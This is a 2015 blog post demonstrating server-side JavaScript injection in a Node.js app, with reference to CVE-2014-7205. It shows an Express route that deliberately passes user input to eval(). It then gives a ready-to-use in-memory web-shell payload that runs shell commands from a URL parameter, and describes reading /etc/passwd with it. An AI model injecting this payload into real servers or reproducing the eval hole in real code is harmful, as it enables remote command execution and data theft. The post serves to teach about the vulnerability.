 ```yaml
---
layout: post
title:  "SSJS Web Shell Injection"
date:   2015-01-31 12:02:03
categories: node
---
```


I've recently become interested in real world examples of vulnerabilities in Node.js applications, which allow `Server Side Javascript Injection`. One advisory I came across was <a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7205">CVE-2014-7205</a> discovered by Jarda Kotěšovec in a <a href="https://github.com/hapijs/bassmaster/commit/b751602d8cb7194ee62a61e085069679525138c4">Basmaster plugin</a> which allows arbitrary Javascript injection.

I decided to mock up a simple example of user input passed to an eval() execution sink, to demonstrate an injection of a simple web shell into the server. This web shell will only exist within the current node.js process, and will not be written to disk.

This demo application will only allow a single user input selection to keep things simple:
![Demo app](/assets/SSJS_ws1.png)

Vulnerable code (user input passed to an eval execution sink):
{% highlight javascript %}
router.post('/demo1', function(req, res) {
  var year = eval("year = (" + req.body.year + ")");
  var date = new Date();

  var futureAge = 2050 - year;

  res.render('demo1',
    {
      title: 'Future Age',
      output: futureAge
    });
});
{% endhighlight %}

In this example res.write('SSJS Injection') is injected, and the server will return that string in the page response:
![Demo app](/assets/SSJS_ws2.png)

So we can perform arbitrary SSJS injection on this location. What about injecting a web shell that will start up after 5 seconds, listening on TCP/8000?
{% highlight javascript %}
setTimeout(function() {
    require('http').createServer(function(req, res) {
        res.writeHead(200, {
            "Content-Type": "text/plain"
        });
        require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e, s, st) {
            res.end(s);
        });
    }).listen(8000);
}, 5000)
{% endhighlight %}

One line web shell:
{% highlight javascript %}
setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8000); }, 5000)
{% endhighlight %}

Because we are inserting code which will be eval'd by the application, the web shell will not be written to disk, and execution will be performed from the existing node process. 

Injection of the web shell (application continues to respond normally):
![Demo app](/assets/SSJS_ws3.png)

Execution of `cat /etc/passwd` using the web shell:
![Demo app](/assets/SSJS_ws4.png)

Execution of `ls -la /etc`:
![Demo app](/assets/SSJS_ws5.png)

This is a really simple example of an application with a SSJS injection vulnerability. Another thing to note is that tools to identify web application vulnerabilities may not have support to detect this vulnerability. At the time of this writing, Burp Suite v1.6.10 did not identify a SSJS injection vulnerability in the demo application.

- `[s1gnalCha0s](https://craigarendt.com)`